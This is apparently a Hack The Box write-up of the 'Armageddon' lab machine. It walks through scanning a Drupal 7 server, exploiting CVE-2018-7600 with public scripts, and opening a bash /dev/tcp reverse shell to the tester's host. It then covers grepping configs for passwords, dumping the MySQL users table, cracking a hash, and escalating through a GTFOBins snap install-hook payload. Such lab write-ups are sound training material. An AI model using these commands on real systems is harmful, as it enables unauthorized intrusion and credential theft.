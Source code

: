 ```yaml
---
title: "Armageddon - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Armageddon
![](https://kar0nx.github.io/assets/images/writeup/4256f259c8ac66a3eda11206371eaf8b.png)
## Reconnaissance

IP: 10.10.10.233
## NMAP

```
nmap -T4 -p- -A 10.10.10.233
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-26 05:56 EDT
Nmap scan report for 10.10.10.233
Host is up (0.030s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-generator: Drupal 7 (http://drupal.org)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   29.51 ms 10.10.14.1
2   29.83 ms 10.10.10.233

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.99 seconds
```

2 ports open so start with 80

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826115830.png)

From nmap we know some directories and that cms is Drupal 7
Last update 7.56, so I let's use drupalgeddon2 https://github.com/lorddemon/drupalgeddon2

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826120124.png)

## Gaining Access

looks like it is working 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826120344.png)

cant hit rev shell so switch to https://github.com/pimps/CVE-2018-7600.git

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826123035.png)

```
python3 drupa7-CVE-2018-7600.py http://10.10.10.233 -c 'bash -i >& /dev/tcp/10.10.14.8/4444 0>&1'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826123214.png)

We have reverse shell 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826123240.png)

can't do to much with this user, so let's try to search for passowods in config files 

```
grep -ri "password" /var/www/html
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826124521.png)

using cat we can see username for mysql db 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826124648.png)

Now enumerate mysql with this credentials. I fount table users and password here.

```
mysql -e 'select * from users;' -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826124831.png)

We have bruce admin account with hashed password.
hashcat recognize this hash as module 7900 and cracked it

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826125005.png)

We have password reused to ssh 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826125211.png)

## Privilege Escalation

Starting with sudo -l we see that bruce can sudo with snap

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826125323.png)

https://gtfobins.github.io/gtfobins/snap/

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826130336.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826130855.png)

no root shell but command was executed so, let's edit command form gtfobins to read root.txt flag:

```
COMMAND='cat /root/root.txt'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250826132504.png)

and we got it.